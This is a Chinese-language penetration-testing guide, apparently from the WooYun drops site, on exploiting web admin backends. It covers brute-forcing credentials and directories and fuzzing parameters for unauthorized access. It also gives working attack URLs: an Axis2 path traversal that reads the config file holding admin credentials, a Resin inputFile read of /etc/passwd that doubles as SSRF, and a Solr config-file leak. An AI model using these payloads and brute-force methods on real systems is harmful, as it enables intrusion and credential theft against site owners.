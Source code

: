 0x01 利用
-------

* * *

这里列出几个常见的系统利用方法

### 1. 后台

当前面的过程中发现后台或者重要系统时，一般会进行如下几种检测

1）awvs综合扫描（经常有意外发现） 2）目录结构暴破 3）口令暴破（admin不行的时候，不一定是密码不对，很多时候是用户名不对，尝试想到的可获取用户名的一切方法，如翻翻js、css文件，html源码注释内容，或者.svn目录下的信息泄露等，密码可针对系统名称及域名等信息做一些变形加到字典中） 4）Html源码、js等文件获取信息（有些开发者会把一些管理地址以注释形式放到html源码中，管理的接口地址写在js中，运气好的话可以直接越权访问） 5）参数值暴破（一些框架写的后台登陆页面可能是这种格式xx.com/?c=login,日常可以收集一些常见的参数值，如index、main、upload、edit、adduser等、运气好的话可以直接越权操作）

### 2. axis2

文件包含：

[www.xxx.com/axis2/services/listServices](http://www.xxx.com/axis2/services/listServices)查看所有services

[www.xxx.com/axis2/services/xxxxx?xsd=../conf/axis2.xml](http://www.xxx.com/axis2/services/xxxxx?xsd=../conf/axis2.xml)xxxxx替换任意服务均可，读取axis2配置文件获取后台账户

![2014083012385029649.jpg](http://drops.javaweb.org/uploads/images/45f37b1f8e9df008d1fe3e8db98b3fb17aca428f.jpg)

[www.xxx.com/axis2/axis2-admin/](http://www.xxx.com/axis2/axis2-admin/)登陆管理后台

后台部署文件代码执行：

使用metasploit

![2014083012392773538.jpg](http://drops.javaweb.org/uploads/images/7e60bbeb496a2a2ad5e0b53e84c6ca5270dfbcdc.jpg) 

Resin

文件读取：

[http://www.xxx.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd](http://www.xxx.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd)

![2014083012401614058.png](http://drops.javaweb.org/uploads/images/8e3645b667e7158f7e7df42a36987db9da251bd9.jpg) 

也可以通过

http://www.xxx.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://1.1.1.1

实现SSRF

solr敏感信息泄漏

http://xxx.org:8080/solr/admin/file/?file=solrconfig.xml

搜索xml文件，找到data-import.xml

![2014083012404391496.jpg](http://drops.javaweb.org/uploads/images/069fd108c47715b486e2182d6444fbf9edd4313d.jpg) 
